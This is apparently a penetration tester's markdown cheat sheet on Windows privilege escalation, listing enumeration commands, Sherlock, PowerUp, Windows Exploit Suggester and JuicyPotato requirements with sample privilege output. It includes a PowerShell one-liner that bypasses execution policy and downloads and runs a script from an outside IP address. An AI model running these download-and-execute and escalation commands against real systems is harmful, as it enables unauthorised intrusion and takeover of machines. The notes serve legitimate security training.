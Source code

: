 ## Privilege escalation (Priv esc)

### Windows

- Starting powershell in high-integrity mode: `powershell Start-Process cmd.exe -Verb runAs`
- A lot of windows binaries can be found at `/usr/share/windows-binaries/` for kali linux
#### Sherlock

- Can use sherlock to find priv esc possiblities

#### Finding system info
```sh
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
hostname
echo %username%
net users
```

#### Powerup

```powershell
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.194/PowerUp.ps1'); Invoke-AllChecks
# Powerup original url: https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
```

#### Windows Exploit Suggester

```sh
windows-exploit-suggester --database 2020-05-20-mssb.xls --systeminfo systeminfo.txt
```

#### JuicyPotato

RottenPotatoNG and its variants leverages the privilege escalation chain based on BITS service having the MiTM listener on `127.0.0.1:6666` and when you have SeImpersonate or SeAssignPrimaryToken privileges. During a Windows build review we found a setup where BITS was intentionally disabled and port `6666` was taken. Neds to have `SeImpersonatePrivilege` enabled:

```powershell
c:\Users\Public\Documents>whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
